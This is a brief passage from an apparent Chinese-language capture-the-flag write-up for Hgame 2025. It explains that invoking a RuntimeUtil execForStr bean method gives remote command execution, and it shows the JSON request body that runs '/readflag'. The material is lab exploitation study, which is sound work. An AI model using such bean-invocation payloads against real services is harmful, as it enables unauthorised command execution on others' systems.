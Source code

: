 ![](/img/Hgame2025复现/Ez63bk1KioiOqOxZ7ajcgtAvnEd.png)

![](/img/Hgame2025复现/HUxQb0lwOo0cQjx06Kpca5WanZb.png)

调用 RuntimeUtil 的 execForStr 实现 RCE 获得 flag

```
{
    "beanName":"execCmd",
    "methodName":"execForStr",
    "params":{
        "arg0":"utf-8",
        "arg1":["/readflag"]
    }
}
```
